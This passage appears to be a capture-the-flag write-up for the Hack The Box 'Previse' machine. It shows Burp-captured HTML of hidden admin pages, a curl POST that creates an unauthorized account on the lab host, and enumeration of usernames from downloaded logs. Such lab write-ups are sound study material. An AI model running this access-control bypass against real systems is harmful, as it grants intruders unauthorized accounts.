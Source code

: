 
2. Visiting the http server there's not much to take away from it, it's a blank login page. None of the found .php pages
yeild anything either. However, if we capture our GET requests in Burp, we find some hidden information.

accounts.php:
  Add New Account   Create new user.
  ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!
  Usernames and passwords must be between 5 and 32 characters!

  <form role="form" method="post" action="accounts.php">
     <div class="uk-margin">
         <div class="uk-inline">
             <span class="uk-form-icon" uk-icon="icon: user"></span>
             <input type="text" name="username" class="uk-input" id="username" placeholder="Username">
         </div>
     </div>
     <div class="uk-margin">
         <div class="uk-inline">
             <span class="uk-form-icon" uk-icon="icon: lock"></span>
             <input type="password" name="password" class="uk-input" id="password" placeholder="Password">
         </div>
     </div>
     <div class="uk-margin">
         <div class="uk-inline">
             <span class="uk-form-icon" uk-icon="icon: lock"></span>
             <input type="password" name="confirm" class="uk-input" id="confirm" placeholder="Confirm Password">
         </div>
     </div>
     <button type="submit" name="submit" class="uk-button uk-button-default">CREATE USER</button>

files.php:
  #   Name            Size    User    Date
  1   siteBackup.zip  9948    newguy  2021-06-12 11:14:34
  <a href='download.php?file=32'><button class="uk-button uk-button-text">siteBackup.zip</button></a>

status.php:
  MySQL server is online and connected!
  There are 2 registered admins
  There is 1 uploaded file

By the looks of 'account.php' we should be able to create a new account, using that post form.
A quick google on the subject and we find the syntax and it works!

[root:/git/htb/previse]# curl -v -X POST -F 'username=playerthree' -F 'password=test123' -F 'confirm=test123' http://previse.htb/accounts.php

Login with your newly created user, playerthree:test123


3. Looking around the admin panel we find Management Menu -> Log Data. Downloading the file we find second user m4lwhere.
Known users: m4lwhere, newguy, playerthree

